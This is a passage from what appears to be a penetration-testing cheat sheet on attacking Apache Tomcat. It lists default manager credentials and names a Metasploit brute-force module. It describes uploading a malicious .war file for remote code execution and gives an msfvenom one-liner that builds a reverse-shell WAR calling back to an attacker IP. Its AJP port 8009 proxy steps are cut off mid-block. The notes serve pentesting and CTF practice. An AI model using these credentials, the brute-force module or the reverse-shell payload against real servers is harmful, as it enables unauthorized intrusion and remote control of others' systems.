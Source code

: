 
#### References
- [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
- [https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization_python.html](https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization_python.html)
- [https://ir0nstone.gitbook.io/hackthebox/challenges/web/baby-website-rick](https://ir0nstone.gitbook.io/hackthebox/challenges/web/baby-website-rick)


# Tomcat
## Default credentials
```
admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```

### Metasploit brute force
With the is module: `auxiliary/scanner/http/tomcat_mgr_login` one can bruteforce possible usernames and passwords.

## War file exploit (RCE)
If one has access to the Application Manager of Tomcat, the attacker can upload and run a .war file to execute code and get a shell potentially.     
**This is only possible if the account that the attacker is logged in with has enough privileges (admin,manager-script,manager)**

### One liner to create .war file
```bash
msfvenom -p java/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

## Apache JServ (AJP) protocol on port 8009
If a machine hosts a tomcat server with the AJP protocol one can use the steps below to redirect traffic from the host to their machine.
1. Download needed software
    ```bash
    apt install libapache2-mod-jk
    a2enmod proxy_ajp
    ```
2. Configure server
    ```bash
    ProxyRequests Off
    <Proxy *>
    Order deny,allow
    Deny from all
    Allow from localhost
    </Proxy>
    ProxyPass   / ajp://<IP>:8009/
    ProxyPassReverse  / ajp://<IP>:8009/
    ```
3.  (Re)start apache server
    ```bash
    systemctl start apache2 